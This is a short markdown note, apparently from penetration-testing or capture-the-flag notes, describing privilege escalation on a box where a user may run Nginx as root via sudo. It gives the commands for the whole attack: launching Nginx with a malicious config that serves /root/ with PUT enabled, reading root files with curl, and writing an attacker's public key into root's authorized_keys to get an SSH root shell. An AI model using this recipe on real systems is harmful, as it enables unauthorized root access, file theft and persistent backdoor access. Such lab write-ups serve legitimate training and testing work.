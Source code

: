 ## Privilege escalation:Nginx

If you can run Nginx on a machine as root then it is possible to use this to extract secure files and to get a ssh connection as root.

First we create the config file hacked.conf. This file is an Nginx configuration file that will start a web-server as root and exposes /root/ as the root of the website. The server also has directory browsing enabled and accepts PUT requests.
Now we start Nginx using the config file
``` bash
sudo nginx -c <file path>/hacked.conf  
```

#### Extracting files
Now we can browser (or curl) to the server on the port specified in the hacked.conf file we will be able to see all the files and take whatever we want e.g. root flags.

```
curl <target machine>:8080/root.txt
```

#### Getting a Root shell
To get a root shell we can use the a PUT request to add an ssh key to the authorized keys file and then ssh to the box as root.

First create a keypair 
```bash
ssh-keygen
``` 
And save the file as id_rsa (or whatever)
Then copy the contents of the id_rsa.pub file and use a PUT request to add them to the authorized_keys file in the root/.ssh folder
```
bash curl -X PUT http://broker.htb:8080/.ssh/authorized_keys -d '<contents of public key file>'
```
Then use the private key file to ssh onto the box as root
```
ssh root@<box> -i ./id_rsa
```





